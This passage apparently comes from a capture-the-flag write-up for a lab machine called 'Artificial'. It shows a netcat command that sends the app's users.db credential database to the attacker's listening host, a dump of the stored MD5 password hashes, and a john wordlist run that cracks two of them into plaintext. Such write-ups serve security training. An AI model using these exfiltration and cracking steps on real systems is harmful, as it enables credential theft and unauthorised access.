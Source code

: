 #### on the target machine
``` bash
app@artificial:~/app$ nc 10.10.15.86 20000 < instance/users.db
```

#### on my machine

```bash
$ nc -lnvp 20000 > users.db
Connection from 10.10.11.74:39576
$ sqlite3 users.db
SQLite version 3.50.4 2025-07-30 19:33:53
Enter ".help" for usage hints.
sqlite> .tables
model  user
sqlite> select * from user;
1|gael|gael@artificial.htb|c99175974b6e192936d97224638a34f8
2|mark|mark@artificial.htb|0f3d8c76530022670f1c6029eed09ccb
3|robert|robert@artificial.htb|b606c5f5136170f15444251665638b36
4|royer|royer@artificial.htb|bc25b1f80f544c0ab451c02a3dca9fc6
5|mary|mary@artificial.htb|bf041041e57f1aff3be7ea1abd6129d0
6|jeff|jeff@jeff.com|166ee015c0e0934a8781e0c86a197c6e
7|zee|zee@gmail.com|25d55ad283aa400af464c76d713c07ad
sqlite>
```

the 6th hash was mine, 7th was probably another player's, they seemed like `md5` hashes but I checked to the source code just to make sure, I `grep`'d for the the keyword `passowrd` and found the following line in `app.py`
``` bash
app@artificial:~/app$ grep password * -n
...
app.py:89:        hashed_password = hash(password)
app.py:97:        new_user = User(username=username, email=email, password=hashed_password
...
```

I checked the `hash_password` function and I found the following code
``` python
def hash(password):
	password = password.encode()
	hash = hashlib.md5(password).hexdigest()
	return hash
```

so it's definitely `md5` which I used `john` to crack
```bash
$ john w --format=Raw-MD5 --wordlist=$ROCK
Using default input encoding: UTF-8
Loaded 5 password hashes with no different salts (Raw-MD5 [MD5 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=8
Press 'q' or Ctrl-C to abort, almost any other key for status
mattp005numbertwo (?)
marwinnarak043414036 (?)
2g 0:00:00:00 DONE (2025-10-24 16:53) 2.325g/s 16678Kp/s 16678Kc/s 63372KC/s  filimani..*7¡Vamos!
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed
```
